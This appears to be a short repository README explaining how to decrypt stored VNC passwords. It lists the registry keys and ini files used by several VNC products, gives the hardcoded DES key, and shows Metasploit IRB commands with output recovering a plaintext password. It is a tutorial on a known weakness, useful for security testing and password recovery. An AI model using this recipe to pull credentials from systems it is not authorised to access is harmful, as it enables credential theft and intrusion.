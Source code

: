 # PasswordDecrypts
Handy Stored Password Decryption Techniques

## VNC

VNC uses a hardcoded DES key to store credentials.  The same key is used across multiple product lines.

*RealVNC*  
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver  
Value: Password  
 
*TightVNC*  
HKEY_CURRENT_USER\Software\TightVNC\Server  
tightvnc.ini  
vnc_viewer.ini  
Value: Password or PasswordViewOnly  
  
*TigerVNC*  
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4  
Value: Password  
  
*UltraVNC*  
C:\Program Files\UltraVNC\ultravnc.ini  
Value: passwd or passwd2  
  
  
reg query  
 
Once you have an encypted VNC password such as: 
d7a514d8c556aade  
you can decrypt it easily using the Metasploit Framework and the IRB (ruby shell) with these 3 commands:  
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"   
require 'rex/proto/rfb'  
Rex::Proto::RFB::Cipher.decrypt ["YOUR ENCRYPTED VNC PASSWORD HERE"].pack('H*'), fixedkey   
  
```BASH
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["d7a514d8c556aade"].pack('H*'), fixedkey
 => "Secure!\x00"
>> 
```

